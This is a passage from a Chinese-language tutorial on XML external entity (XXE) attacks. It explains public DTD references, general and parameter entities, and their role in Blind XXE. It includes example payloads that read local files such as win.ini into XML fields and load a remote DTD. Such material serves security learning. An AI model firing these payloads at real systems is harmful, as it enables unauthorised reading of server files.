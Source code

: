    当然，还有一种引用方式是使用 引用**公用 DTD** 的方法，语法如下：

   ```
   <!DOCTYPE 根元素名称 PUBLIC “DTD标识名” “公用DTD的URI”>
   ```

   这个在我们的攻击中也可以起到和 SYSTEM 一样的作用

   **重点二：**

   我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体），别晕。。

   **1.通用实体**

   用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

   **示例代码：**

   ```xml
   <?xml version="1.0" encoding="utf-8"?> 
   <!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
   <updateProfile>  
       <firstname>Joe</firstname>  
       <lastname>&file;</lastname>  
       ... 
   </updateProfile>
   ```

   **2.参数实体：**

   (1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 %实体名; 引用**
   (2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
   (3)和通用实体一样，参数实体也可以外部引用

   **示例代码：**

   ```xml-dtd
   <!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
   <!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
   %an-element; %remote-dtd;
   ```

   **抛转：**

   参数实体在我们 Blind XXE 中起到了至关重要的作用

   ## **四、我们能做什么**

   上一节疯狂暗示了 **外部实体** ，那他究竟能干什么？

   实际上，当你看到下面这段代码的时候，有一点安全意识的小伙伴应该隐隐约约能觉察出什么

   ```xml
   <?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
   <creds>
   <user>&xxe;</user>
   <pass>mypass</pass>
   </creds>
   ```

